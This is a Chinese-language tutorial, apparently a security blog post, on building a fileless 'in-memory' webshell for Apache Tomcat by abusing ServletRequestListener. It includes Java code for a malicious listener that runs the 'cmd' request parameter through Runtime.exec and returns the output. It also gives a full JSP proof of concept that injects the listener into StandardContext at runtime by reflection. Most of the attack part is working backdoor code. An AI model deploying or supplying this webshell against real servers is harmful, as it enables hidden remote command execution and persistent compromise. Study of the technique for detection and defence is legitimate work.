

### 简介

Listener 是监听器，当 Web 应用在 Servlet 容器中运行时，Servlet 容器内部会不断的发生各种事件，如 Web 应用的启动和停止、用户请求到达等。 Servlet 容器提供了一些默认的监听器来监听这些事件，当事件发生时，Servlet 容器会负责调用监听器的方法。当然，也可以定义自己的监听器去监听你感兴趣的事件，将监听器配置在web.xml中。

Listener主要分为以下三个大类：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

显然只需访问服务即可触发的Request类监听器适合用来做内存马，如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类


其中最适合作为Webshell的要数ServletRequestListener，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，我们可以拿到每次请求的的事件：ServletRequestEvent，通过其中的getServletRequest()函数就可以拿到本次请求的request对象，从而加入我们的恶意逻辑 。

先写一个listener

```java
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

web.xml

```xml
<listener>
<listener-class>TestListener</listener-class>
</listener>
```




接下来我们需要关注两个点，如何写一个恶意监听器和如何实现动态注册

对于filter来讲，ServletRequest本身就包含了我们的请求

```java
   public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤操作");
        filterChain.doFilter(servletRequest,servletResponse);
    }
```

所以对于listener我们同样需要有一个方法来获取request

```java
public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
```

跟进一下requestInitialized传入的参数ServletRequestEvent


注意到这里getServletRequest()，返回一个request，我们和filter的对比一下


因此我们写一个恶意listener试试

```java
  public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
        String cmd;
        try {
            cmd = sre.getServletRequest().getParameter("cmd");
            org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
            Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            requestField.setAccessible(true);
            Request request = (Request) requestField.get(requestFacade);
            Response response = request.getResponse();

            if (cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                int i = 0;
                byte[] bytes = new byte[1024];
                while ((i=inputStream.read(bytes)) != -1){
                    response.getWriter().write(new String(bytes,0,i));
                    response.getWriter().write("\r\n");
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```


接下来我们关注listener的注册流程

```
requestInitialized:12, TestListener
fireRequestInitEvent:5982, StandardContext (org.apache.catalina.core)
invoke:121, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:698, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:367, CoyoteAdapter (org.apache.catalina.connector)
service:639, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:882, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1691, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

这里可以发现listener在`StandardContext#getApplicationEventListeners`中获得


跟进

```java
    public Object[] getApplicationEventListeners() {
        return this.applicationEventListenersList.toArray();
    }
```

`applicationEventListenersList`数组存放实例化后的listener

最终我们反射调用`addApplicationEventListener`添加listener即可

```java
    public void addApplicationEventListener(Object listener) {
        this.applicationEventListenersList.add(listener);
    }
```

poc：

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true); 
    Request req = (Request) requestField.get(request); 
    StandardContext context = (StandardContext) req.getContext();
    
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```

当然获取StandardContext的方式还可以是：

```java
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```


参考：

https://yq1ng.github.io/2021/12/07/listener-nei-cun-ma/#!

http://wjlshare.com/archives/1651

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Listener%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w